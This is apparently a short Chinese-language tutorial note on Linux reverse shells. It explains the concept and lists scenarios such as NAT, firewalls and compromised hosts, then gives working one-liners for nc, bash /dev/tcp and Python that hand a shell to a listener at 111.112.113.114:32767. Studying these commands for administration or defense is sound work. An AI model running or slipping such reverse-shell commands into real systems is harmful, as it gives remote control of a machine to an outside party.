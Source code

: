 ```yaml
---
title: "Linux 反弹 shell"
date: "2022-07-11 15:23:00"
lastmod: "2022-07-24 17:01:38"
tags: ["shell"]
categories: ["Linux"]
draft: false
---
```


## 什么是反弹 Shell {#什么是反弹-shell}

控制端首先监听某个 TCP/UDP 端口，然后被控制端向这个端口发起一个请求，同时将自己命令行的输入输出转移到控制端，从而控制端就可以输入命令来控制被控端了


## 反弹 Shell 应用场景 {#反弹-shell-应用场景}

-   A 虽然有公网 IP，但 B 是一个处于内网的机器，A 就没法直接连到 B 上
-   B 上开了防火墙或者安全组限制，sshd 的服务端口 22 被封闭了
-   B 是一台拨号主机，其 IP 地址经常变动
-   假如 B 被攻击了，我们想让 B 向 A 汇报自己的状况，那自然就需要 B 主动去连接 A


## 反弹 Shell 案例 {#反弹-shell-案例}

-   A: 控制端,IP111.112.113.114
-   B: 被控制端


### nc {#nc}

> yum install -y nc

-   A:

    ```bash
    nc -lvp 32767
    ```

-   B:

    ```bash
    nc 111.112.113.114 32767 -e /bin/bash
    ```


### bash {#bash}

-   A 同上
-   B:

    ```bash
    bash -i >& /dev/tcp/111.112.113.114/32767 0>&1
    ```


### python {#python}

-   A 同上
-   B:

    ```python
    python -c 'import socket,subprocess,os; \
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("111.112.113.114",32767));
    os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call(["/bin/sh","-i"]);'
    ```


## Ref {#ref}

-   [什么是反弹 Shell？](https://mp.weixin.qq.com/s/d3fDWWTKLF0mCpCMeAd4Ew)